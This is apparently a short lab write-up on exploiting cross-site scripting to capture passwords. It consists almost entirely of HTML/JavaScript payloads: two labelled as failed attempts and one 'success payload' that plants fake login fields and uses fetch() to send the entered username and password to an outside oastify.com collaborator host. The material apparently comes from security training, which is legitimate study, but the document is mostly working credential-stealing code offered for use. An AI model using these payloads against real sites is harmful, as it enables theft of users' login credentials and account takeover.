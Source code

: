 # Exploiting cross-site scripting to capture passwords

## failed payloads
1. this payload will proompt the user with "The information you have entered on this page will be sent over an insecure connection and could be read by a third party. Are you sure you want to send this information?" and will send post request with empty username and password
```html
<form id="exfilterate" action="http://yce8l2mnhsldkp83z3suzyejrax2lr.oastify.com/" method="post">
    <input type="text" name="username" id="username">
    <input type="password" name="password" id="password">
</form>

<script>
    window.onload = function () {
        document.forms["exfilterate"].submit();
    }
</script>
```

2. will generate a CSP (content security policy) error
```htmpl
<form id="exfilterate" method="post">
    <input type="text" name="username" id="username">
    <input type="password" name="password" id="password">
</form>

<script>
    window.onload = function () {
        document.forms["exfilterate"].submit();
    }
    document.querySelector('form').addEventListener('submit', (e) => {
        const data = Object.fromEntries(new FormData(e.target).entries());
        fetch("https://yce8l2mnhsldkp83z3suzyejrax2lr.oastify.com/", {
            method: "POST",
            mode: "no-cors",
            body: data
        });
    });
</script>
```

## success payloads
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://312da7bs6xai9ux8o8hzo33ogfm8ax.oastify.com/',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
